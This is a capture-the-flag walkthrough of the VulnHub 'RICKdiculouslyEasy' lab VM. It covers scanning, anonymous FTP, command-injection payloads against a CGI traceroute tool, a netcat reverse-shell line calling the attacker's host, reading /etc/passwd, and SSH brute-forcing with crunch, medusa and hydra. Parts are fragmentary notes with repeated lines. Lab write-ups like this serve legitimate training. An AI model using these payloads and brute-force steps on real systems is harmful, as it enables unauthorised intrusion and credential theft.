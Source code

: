 # RICKdiculouslyEasy

### Description (from VulnHub)

```
Back to the Top
This is a fedora server vm, created with virtualbox.

It is a very simple Rick and Morty themed boot to root.

There are 130 points worth of flags available (each flag has its points recorded with it), you should also get root.

It's designed to be a beginner ctf, if you're new to pen testing, check it out!
```

* * *

## Finding the IP address of the Vuln Machine

`sudo arp-scan 10.0.0.0/24`
![Optional Text](/Rickdiculously%20Easy/_resources/32a1b37e8b2c47cc8ed70ce1e649487f.png)

* * *

## Nmap scan results

```
# Nmap 7.80 scan initiated Wed Apr 21 11:03:27 2021 as: nmap -sC -sV -oA nmapscans/rid-easy 10.0.0.137
Nmap scan report for 10.0.0.137
Host is up (0.00046s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.0.186
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp   open  http       Apache httpd 2.4.27 ((Fedora))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.27 (Fedora)
|_http-title: Morty's Website
9090/tcp open  http       Cockpit web service
|_http-title: Did not follow redirect to https://10.0.0.137:9090/
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# cleNmap done at Wed Apr 21 11:04:03 2021 -- 1 IP address (1 host up) scanned in 36.53 seconds
```

* * *

### Looking at the NAMP scan results

I look at `https://10.0.0.137:9090/` from the nmap scan and I see. Looks like we got our frist flag. Other than the flag there Didn't seem to be much here so I attempted anonymous login via FTP.
![Optional Text](/Rickdiculously%20Easy/_resources/28c5f1cc424b4876b5ee99bb7015065d.png)

 I used `wget -m ftp://anonymous:anonymous@10.0.0.137`
Looks like we got our second flag after 
![Optional Text](/Rickdiculously%20Easy/_resources/380d1b0562be4575a485325880fd6713.png)

2 Flags found for 20 points, 110 left to go

* * *

## Nikto scan results

`nikto -h 10.0.0.137:80`
![Optional Text](/Rickdiculously%20Easy/_resources/e80a8432e21b47f8bb96a19a801c69a9.png)

* * *

Checking Out the /passwords/ dir I see:
![Optional Text](/Rickdiculously%20Easy/_resources/583ddbbb5a134746a502bbbdd01d5b6d.png)

* * *

After Clicking on FLAG.txt I see:
![Optional Text](/Rickdiculously%20Easy/_resources/a149221d696b42239fedfef08d456a1d.png)

* * *

Clicking on the passwords.html I see:
![Optional Text](/Rickdiculously%20Easy/_resources/be61f44dc89b433995b0bdda425d1160.png)

**The message**

```
Wow Morty real clever. Storing passwords in a file called passwords.html? You've really done it this time Morty. Let me at least hide them.. I'd delete them entirely but I know you'd go bitching to your mom. That's the last thing I need.
```

* * *

Looking at the source of `10.0.0.137/passwords/passwords.html` I see:
![Optional Text](/Rickdiculously%20Easy/_resources/3be9c5f2d8c34c6e8156c476ac324836.png)

* * *

Great as of right now we have a password `winter` and 30 points found 100 left to go!

Looking at `http://10.0.0.137/robots.txt` I see:
![Optional Text](/Rickdiculously%20Easy/_resources/8279bcc2dac9489096951170c9a55b04.png)

Looks like another set of directories

```
/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*

```

`10.0.0.137/cgi-bin/root_shell.cgi`
![Optional Text](/Rickdiculously%20Easy/_resources/c1d060c970384b449cadc580c55915b8.png)

`http://10.0.0.137/cgi-bin/tracertool.cgi`
![Optional Text](/Rickdiculously%20Easy/_resources/9ac3412d75fd4194b063f8a52debd39d.png)

Looking over everything I found so far I decided to dig into `http://10.0.0.137/cgi-bin/tracertool.cgi` a little further.

After testing the input I releazed it was suscpetialbe to command injection

`1.1.1.1;uname -r` returned
4.11.8-300.fc26.x86_64

So lets see if I can get a shell, what would be great is if the vuln machine had netcat
So I decided to see if it did

`1.1.1.1;man nc`

![Optional Text](/Rickdiculously%20Easy/_resources/9b996bd49cb441eba744c47f1d8e2a53.png)

python3 -m http.server 8000

curl http://127.0.0.1:8001/1.txt

:nl /etc/passwd

![Optional Text](/Rickdiculously%20Easy/_resources/6a8dee2210714497bd66728abccf025e.png)

Great now we have some usernames
27 RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
28 Morty:x:1001:1001::/home/Morty:/bin/bash
29 Summer:x:1002:1002::/home/Summer:/bin/bash
30 apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin

ls /home/RickSanchez
ls /home/Morty

## FTP Login

After user creds Summer:winter I was able to get an FTP login
![Optional Text](/Rickdiculously%20Easy/_resources/33bd2ec1b02544c698bae44d6cef7f85.png)

## You can login using the sequence below

Ftp Command=`ftp 10.0.0.137`
Username=`Summer`
Password=`winter`

`wget -m ftp://anonymous:anonymous@10.0.0.137`

ls /home/RickSanchez
ls /home/Morty

;touch /usr/bin/hello.txt


;base64 --decode /tmp/open.sh > /tmp/resh.sh
;echo nc 10.0.0.186 7878 >> /tmp/resh.sh

[http://10.0.0.0.137/cgi-bin/tracertool.cgi?parameter=||whoami](http://10.0.0.0.137/cgi-bin/tracertool.cgi?

[http://10.0.0.137/cgi-bin/tracertool.cgi?ip=||whoami>/var/www/output.txt||](http://10.0.0.137/cgi-bin/tracertool.cgi?ip=%7C%7Cwhoami%3E/var/www/output.txt%7C%7C)

![Optional Text](/Rickdiculously%20Easy/_resources/9cdc677064af42528e30c76533c43823.png)

![Optional Text](/Rickdiculously%20Easy/_resources/1db82e2b853c4415a3f1f55b438e93b0.png)

Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

20 points

Anyway. Here it is:

Here it is:

./safe 131333

![Optional Text](/Rickdiculously%20Easy/_resources/a932636ee913450eb6a3bfa08c8ca6fb.png)


[Had to do some reading](https://www.rootinstall.com/tutorial/creating-custom-wordlists-using-crunch-utility/)
  
 1227  crunch 5 5 -t ,%the -o password.txt 
 1229  crunch 5 5 -t ,%The >> password.txt 
 1230  crunch 7 7 -t ,%Flesh >> password.txt 
 1231  crunch 7 7 -t ,%flesh >> password.txt 
 1232  crunch 9 9 -t ,%curtains >> password.txt 
 1233  crunch 10 10 -t ,%curtains >> password.txt 
 1234  crunch 10 10 -t ,%Curtains >> password.txt 


medusa -u RickSanchez -P password.txt -h 10.0.0.137 -M ssh -n 22222 -f

![Optional Text](/Rickdiculously%20Easy/_resources/517dc2facf2a4a9b91a21237171ec7ea.png)
ACCOUNT FOUND: [ssh] Host: 10.0.0.137 User: RickSanchez Password: P7Curtains [SUCCESS]**strong text**

## !!Optional!!
I also used cupp.py to generate passwords. Really easy to use tool
[GitHub For Cupp.py](https://github.com/Mebus/cupp)

run ./cupp.py -i
![Optional Text](/Rickdiculously%20Easy/_resources/809a450dc68d431c89b94e25f145b714.png)

Used hyrdra install of medusa 
hydra -l RickSanchez -P the.txt 10.0.0.137 -s22222 ssh

![Optional Text](/Rickdiculously%20Easy/_resources/517dc2facf2a4a9b91a21237171ec7ea.png)
ACCOUNT FOUND: [ssh] Host: 10.0.0.137 User: RickSanchez Password: P7Curtains [SUCCESS]

